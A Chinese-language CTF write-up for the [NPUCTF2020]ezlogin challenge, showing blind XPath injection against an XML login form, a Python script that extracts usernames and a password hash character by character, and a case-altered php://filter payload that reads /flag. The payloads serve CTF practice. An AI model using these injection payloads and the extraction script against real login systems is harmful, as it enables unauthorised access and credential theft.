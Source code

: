 ```yaml
---
title: '[NPUCTF2020]ezlogin'
date: 2024-09-22 14:59:57
tags: xpath注入
categories: 刷题笔记
---
```


## [NPUCTF2020]ezlogin

我们写入用户名和密码进行抓包

![image-20240922150632129](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221506289.png)

我们发现题目提交的数据跟往常的不一样，而且是用的xml类型，通过查询资料，这题要用xpath注入

[XPATH注入讲解](https://xz.aliyun.com/t/7791#toc-6)

在xpath中的查询语句为：

```
"/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']";
```

其中\$name和\$pwd是我们输入的字符，这里对字符没有经过任何的过滤。

<!--more-->

当$name= admin‘ or 1=1 or ''='

拼接后的语句为：

```
"/root/users/user[username/text()='admin' or 1=1 or ''='' and password/text()='".$pwd."']";   //成为永真式，万能密码
```

 值得注意的是在xpath的查询语句中没有注释。

我们把文章给出的payload放上去

```
'or count(/)=1  or ''=' 
```

![image-20240922153805147](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221538241.png)

```
'or count(/)=2  or ''=' 
```

![image-20240922153830714](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221538774.png)

有明显的的布尔回显(注意在重新提交的时候记得刷新下页面)

说明他根下只有一个节点

接下来是盲注了，注意他那里有个token，过期时间比较快，记得用会话保持状态带上。

测试长度

payload

```
'or string-length(name(/*[1]))=4 or ''='
```

长度为4

猜测根节点下的名称

```
'or substring(name(/*[1]), 1, 1)='a'  or ''='
```

名称为root

猜测子节点的名称

```
'or substring(name(/root/*[1]), 1, 1)='a'  or ''='
```

名称为accounts

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/abcf4ed2b7b7f09f27ac086e2c0883ca.png)

account下还有两个节点

```
'or substring(name(/root/accounts/*[1]), 1, 1)='a'  or ''='

```

两个节点都为:`user`,

再跑user下的节点

发现第一个节点为id

![image-20240922154721721](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221547798.png)

再跑跑后面的节点看看

username ，password

接着跑用户名和密码

```
'or substring(/root/accounts/user/username[1]/text(), 1, 1)='a'  or ''='

```

用户名

guest，adm1n

还有MD5加密后的密码cf7414b5bdb2e65ee43083f4ddbc4d9f

解码得到gtfly123

放上完整的exp

```
import requests
import re

s = requests.session()
url ='http://4ab0514f-3518-44ad-9b5f-f8c60fb0ea92.node3.buuoj.cn/login.php'



head ={
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36",
    "Content-Type": "application/xml"
}
find =re.compile('<input type="hidden" id="token" value="(.*?)" />')

strs ='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'


flag =''
for i in range(1,100):
    for j in strs:

        r = s.post(url=url)
        token = find.findall(r.text)
        #猜测根节点名称
        payload_1 = "<username>'or substring(name(/*[1]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])
        #猜测子节点名称
        payload_2 = "<username>'or substring(name(/root/*[1]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        #猜测accounts的节点
        payload_3 ="<username>'or substring(name(/root/accounts/*[1]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        #猜测user节点
        payload_4 ="<username>'or substring(name(/root/accounts/user/*[2]), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        #跑用户名和密码
        payload_username ="<username>'or substring(/root/accounts/user[2]/username/text(), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])

        payload_password ="<username>'or substring(/root/accounts/user[2]/password/text(), {}, 1)='{}'  or ''='</username><password>3123</password><token>{}</token>".format(i,j,token[0])


        print(payload_username)
        r = s.post(url=url,headers=head,data=payload_username)
        print(r.text)


        if "非法操作" in r.text:
            flag+=j
            print(flag)
            break

    if "用户名或密码错误!" in r.text:
        break

print(flag)


```

我们用adm1n ，gtfly123进行登录

进入了一个新页面

我们打开源码，发现有个base64加密

![image-20240922161339130](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221613229.png)

解码后得到

![image-20240922161438060](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221614133.png)

我们知道了flag在/flag下

我们观察url发现传的参数是file，这让我们想到伪协议

```
?file=php://filter/convert-base64.encode/resource=/flag
```

![image-20240922162202376](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409221622411.png)

提示nonono，说明有过滤

接着就是大小绕过

```
?file=Php://filter/convert.bAse64-encode/resource=/flag
```

得到flag的base64加密，解码得到flag

